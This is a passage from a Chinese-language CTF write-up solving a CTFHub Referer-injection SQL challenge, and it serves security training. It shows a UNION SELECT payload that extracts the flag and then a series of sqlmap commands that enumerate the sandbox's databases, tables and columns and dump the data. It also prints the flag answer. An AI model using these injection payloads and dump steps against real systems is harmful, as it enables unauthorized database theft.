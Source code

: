 最后输入以下代码根据`jfsxcgbxrx`字段可以查询到该字段的数据：

```sql
-1 union select 1, group_concat(jfsxcgbxrx) from sqli.dirxpetuan
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/4.png)

提交`ctfhub{e82d7ab14d58dd03f08c3ce4}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/5.png)

------

**解法2：**`sqlmap`

`sqlmap`中有一个参数是`--level`，表示探测等级，其默认值为`1`，`level>=2`时会检测`Cookie`注入，`level>=3`时会检测`User-Agent`注入和`Referer`注入，`level>=5`时会检测`host`注入。以下代码可以爆破出当前网站中的所有数据库：

```bash
sqlmap -u "http://challenge-72f077dfbff2b932.sandbox.ctfhub.com:10800/" --level 3 --dbs
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/6.png)

爆破出当前数据库的名字：

```bash
sqlmap -u "http://challenge-72f077dfbff2b932.sandbox.ctfhub.com:10800/" --level 3 --current-db
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/7.png)

得到数据库名`sqli`后继续爆破表信息：

```bash
sqlmap -u "http://challenge-72f077dfbff2b932.sandbox.ctfhub.com:10800/" --level 3 -D sqli --tables
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/8.png)

知道有个叫`dirxpetuan`的表后，可以查看该表的字段信息：

```bash
sqlmap -u "http://challenge-72f077dfbff2b932.sandbox.ctfhub.com:10800/" --level 3 -D sqli -T dirxpetuan --columns
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/9.png)

最后输入以下代码根据`jfsxcgbxrx`字段可以查询到该字段的数据：

```bash
sqlmap -u "http://challenge-72f077dfbff2b932.sandbox.ctfhub.com:10800/" --level 3 -D sqli -T dirxpetuan -C jfsxcgbxrx --dump
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/Refer注入/10.png)
